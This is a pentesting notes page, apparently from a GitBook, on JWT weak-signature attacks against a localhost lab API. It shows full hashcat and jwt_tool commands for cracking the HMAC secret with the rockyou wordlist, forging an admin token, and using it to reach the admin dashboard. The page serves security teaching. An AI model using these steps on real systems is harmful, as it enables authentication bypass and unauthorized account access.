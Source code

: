 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Weak Signature

{% hint style="success" %}
JWT has a **weak signature** when the cryptographic algorithm used to sign the token is insecure or when the secret key is weak. This vulnerability allows attackers to forge or manipulate JWTs by exploiting predictable or easily guessable signatures. Weak signatures compromise the integrity and authenticity of the JWT, potentially leading to unauthorized access or data breaches.
{% endhint %}

> _The below example is based on TCM's_ [_Practical API Hacking_](https://academy.tcm-sec.com/p/hacking-apis) _course._

{% hint style="info" %}
_List with well-known secrets:_ [_jwt.secrets.list_](https://raw.githubusercontent.com/wallarm/jwt-secrets/master/jwt.secrets.list)_._
{% endhint %}

{% code overflow="wrap" %}
```bash
# Logging in with valid creds
$ curl -X POST http://localhost/login -H 'Content-Type: application/json' --data '{"username":"user","password":"user"}'
{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJ1c2VyIiwiaWF0IjoxNzE5Mjk1MTA5fQ.aUlvUvP4XbodwpBalrS-1t70Sqx7FxQCvBrmwT8oCDM"}

# Brute forcing the secret
hashcat -a0 -m16500 eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJ1c2VyIiwiaWF0IjoxNzE5Mjk1MTA5fQ.aUlvUvP4XbodwpBalrS-1t70Sqx7FxQCvBrmwT8oCDM /usr/share/wordlists/rockyou
<SNIP>
eyJ...<SNIP>...CDM:ucyxu6
<SNIP>

# We can also crack the JWT secret with jwt_tool
$ jwt_tool -C -d /usr/share/wordlists/rockyou 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QifQ==.BmzWWVFXmJsqH7K9dTxCyCopRB0HHFvCYKCfwW+8We4='

Original JWT:

[+] coffee is the CORRECT key!
You can tamper/fuzz the token contents (-T/-I) and sign it using:
python3 jwt_tool.py [options here] -S hs256 -p "coffee"
```
{% endcode %}

{% hint style="info" %}
_Hashcat signs the header and payload from the JWT using each wordlist secret and compares the resulting signature with the original one (_[_16500_](https://hashcat.net/wiki/doku.php?id=example_hashes)_)._
{% endhint %}

<figure><img src="../../../../../../.gitbook/assets/jwt_weak_signature.png" alt=""><figcaption><p>Figure 1: Tampering with the JWT's <code>userid</code> claim.</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Testing the token
$ curl -i http://localhost/dashboard -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJhZG1pbiIsImlhdCI6MTcxOTI5NTEwOX0.py2v7_Kqtexh4Cq8hqBdEV8wiCr8p6x9eeZFNGlKW4U'
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 45
ETag: W/"2d-bqbMS3LH08+zkhZI3cPwYShjqaE"
Date: Tue, 25 Jun 2024 06:09:39 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"message":"Welcome to your dashboard admin"}
```
{% endcode %}

We can also tamper the required claims using `jwt_tool`.

{% code overflow="wrap" %}
```bash
# Tampering with the JWT
$ jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJ1c2VyIiwiaWF0IjoxNzE5Mjk1MTA5fQ.aUlvUvP4XbodwpBalrS-1t70Sqx7FxQCvBrmwT8oCDM -T -S hs256 -p 'ucyxu6'

Original JWT:

====================================================================
This option allows you to tamper with the header, contents and
signature of the JWT.
====================================================================

Token header values:
[1] alg = "HS256"
[2] typ = "JWT"
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0

Token payload values:
[1] userid = "user"
[2] iat = 1719295109    ==> TIMESTAMP = 2024-06-25 06:58:29 (UTC)
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[5] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 1

Current value of userid is: user
Please enter new value and hit ENTER
> admin
[1] userid = "admin"
[2] iat = 1719295109    ==> TIMESTAMP = 2024-06-25 06:58:29 (UTC)
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[5] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0
jwttool_8043cf61f00c28f7a057cdc20df41290 - Tampered token - HMAC Signing:
[+] eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJhZG1pbiIsImlhdCI6MTcxOTI5NTEwOX0.py2v7_Kqtexh4Cq8hqBdEV8wiCr8p6x9eeZFNGlKW4U
```
{% endcode %}

We can also tamper the JWT's claim using the Burp's [JWT Editor](https://portswigger.net/burp/documentation/desktop/testing-workflow/session-management/jwts#editing-jwts) extension (Figure 2).

> _The below example is base on PortSwigger's_ [_JWT attacks_](https://portswigger.net/web-security/jwt) _module._

<figure><img src="../../../../../../.gitbook/assets/jwt_weak_signature_1.png" alt=""><figcaption><p>Figure 2: JWT tampering with Burp's JWT Editor extension.</p></figcaption></figure>
